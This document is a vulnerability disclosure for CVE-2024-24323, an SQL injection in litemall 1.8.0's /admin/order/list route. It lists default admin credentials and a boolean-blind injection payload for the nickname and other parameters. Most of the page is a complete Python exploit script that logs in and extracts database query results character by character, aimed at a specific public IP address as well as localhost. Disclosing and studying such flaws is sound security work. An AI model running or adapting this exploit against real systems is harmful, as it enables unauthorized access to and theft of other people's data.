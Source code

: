 # CVE-2024-24323

## Description
SQL injection vulnerability in linlinjava litemall v.1.8.0 allows a remote attacker to obtain sensitive information via the nickname,consignee, orderSN, orderStatusArray parameters of the AdminOrdercontroller.java component.

## Version
litemall <= 1.8.0

## Vulnerability Type
SQLi

## Attack Process
1. Visit website `https://47.119.164.125/` or locally hosted site, `http://127.0.0.1:9527`, that you've set up yourself.
2. Be admin via admin123/admin123
3. SQLi will occur on the parameters `nickname`, `consignee`, `orderSN`, and `orderStatusArray` of the route `/admin/order/list`. Use payload which is similar to `%' and ascii(substr(({sql}),{num},1))>{mid} and '%' = '` where {sql} is the SQL query statement being executed.
4. Here is an example of EXP via parameter `nickname` .


## EXP
```
import requests

basic_url = "https://47.119.164.125"
# basic_url = "http://127.0.0.1:9527"

# the SQL query statement being executed
sql = "user()"

def bool_blind(sql, num):
    low = 32
    high = 128
    mid = (low+high)//2
    while low < high:
        route_path = f"/admin/order/list?page=1&limit=1&sort=add_time&order=desc&start=&end=&nickname=%' and ascii(substr(({sql}),{num},1))>{mid} and '%' = '"
        r = s.get(
            basic_url+route_path,
            verify=False
        )
        print(len(r.text))
        if len(r.text) < 100:
            high = mid
        else:
            low = mid+1
        mid=(low+high)//2
    if mid <= 32 or mid >= 127:
        return chr(mid)
    return chr(mid)

s = requests.Session()
# login
login_path = "/admin/auth/login"
r = s.post(
    basic_url+login_path, 
    json={
        "username": "admin123",
        "password": "admin123",
        "code": ""
    },
    verify=False
)
for l in range(20):
    route_path = f"/admin/order/list?page=1&limit=20&sort=add_time&order=desc&start=&end=&nickname=%' and length({sql})>{l} and '%' = '"
    print(basic_url + route_path)
    r = s.get(
        basic_url + route_path,
        verify=False
    )
    if len(r.text) < 100:
        break
print(l)

res = ""
for i in range(l+1):
    res += bool_blind(sql,i)
print(res)
```

![alt text](image.png)

## Suggestion
Use `#{value}` to automatically handle escaping special characters.